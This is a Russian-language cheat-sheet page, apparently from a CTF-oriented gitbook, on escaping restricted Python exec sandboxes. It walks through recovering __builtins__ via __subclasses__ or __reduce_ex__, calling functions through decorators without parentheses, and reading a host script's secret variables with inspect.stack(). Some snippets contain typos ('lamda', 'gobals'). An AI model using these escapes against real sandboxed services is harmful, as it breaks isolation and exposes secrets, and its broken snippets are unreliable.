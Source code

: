 # Python Sandbox

## Базовые трюки

### Получить любую строку

```python
# 1
bytes([20, 22, 24, 25]).decode()

# 2
func = lambda somestring: _
str_Somestring = func.__code__.co_varnames[0]
```

### Перенос строки без переноса строки

В Python возврат каретки `\r` то же самое, что и перенос строки `\n`.&#x20;

### unicode

Интерпретатору python все равно на unicode символы, он их попытается привести к ascii:

![](<../../../.gitbook/assets/изображение (32).png>)

## Работа с типами

### Создание класса

Пусть наш код запускается следующим образом (у нас ограничен `globals`)

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

Без `__build_class__` в `builtins` нельзя создать класс:

```python
myfunc = lambda test:_        # Создаем функцию
gobals = myfunc.__globals__   # Получаем глобальные переменные скрипта
builtins = globals['__builtins__']  # Получаем ссылку на словарь, в котором определены все из пакета builtins (или не определены)
builtins['__build_class__'] = lamda *x: 3  # Здесь может быть любая функция

class C: pass  # теперь этот код не будет вызывать ошибки, если builtins нет в globals переменных
```

### Декораторы и вызов функций через них

Декораторы — это функции, которые в питоне могут быть представлены почти к чему угодно. Например, фунциям. С помощью декораторов можно организовать вызов какой-либо функции, не используя круглых скобок. Ограничение: вызвать можно только функции, которые принимают 1 аргумент (хорошо, что некоторые функции настроены на непозиционные аргументы или на кортежи аргументов). Пример:

```python
result = object()

returnedValues = []

@returnedValues.append
@result.__class__.__subclasses__
class X: pass
```

Другая форма вызова функции через декораторы:

```python
# 1
a = f(b)

# 2
f = lambda x: x + 1

@f
@lambda _:2  # b=2
class a:0    # a=3
```

## Sandboxes

### builtins через subclasses

Зачем нужен builtins? — это ключ к свободному выполнению кода в Python и за пределами контекста Python.&#x20;

```python
result = SomeObjectClassFromParentContext
builtins = [x for x in result.__class__.__subclasses__() if x.__name__ == "catch_warnings"][0]()._module.__builtins__
```

### builtins из ничего

Допустим вас запустили в контексте, где нет builtins. Как до него добраться без `__subclasses__()`и не имея ни одного объекта из внешнего контекста? (все методы во всех гайдах опираются на метод subclasses)

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

Выбираемся (здесь как-то связано с pickle; пример без использования круглых скобок => без возможности вызова функций обычными способами):

```python
builtins['__build_class__'] = lamda *x: 3
result = ''
x = []

# ''.__reduce_ex__(3)
@x.append
@result.__reduce_ex__
class X:
  pass
  
# x — [(<function __newobj__ at 0x108e7b160>, (<class 'str'>, ''), None, None, None)]
builtins = x[0][0].__globals__['__builtins__']
```

reduce\_ex принимает номер версии протокола pickle. Прием выше будет работать с протоколом 2 и выше.

### Получаем доступ ко всем переменным в скрипте из builtins

Пример, что можно сделать, через builtins – например, получить доступ к переменным основного контекста. Пусть наш код запускается следующим способом:

```python
yourcode = 'result = 1 + 1'  # Здесь наш код
SECRET = 'it\'s secret'     # З
namespace = {
    '__builtins__': {},
    'result': None
}
exec(yourcode, namespace)
print(namespace['result'])
```

И пусть мы уже получили каким-либо способом builtins. Тогда, через пакет inspect мы можем получить доступ ко всему стеку вызова основного скрипта:

```python
Import = builtins['__import__']
stack = Import('inspect').stack()

for frameInfo in stack:
    if 'SECRET' in frameInfo.frame.f_locals:
        print(frameInfo.frame.f_locals['SECRET'])  # it's secret
```

## Links & Papers

HackTricks Gitbook: [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Таск [Эмиля Лернера](https://t.me/neexemil) на выход из песочницы python и его решение: [https://gist.github.com/Invizory/36b5c4e037548b940c831efe350162d2](https://gist.github.com/Invizory/36b5c4e037548b940c831efe350162d2)
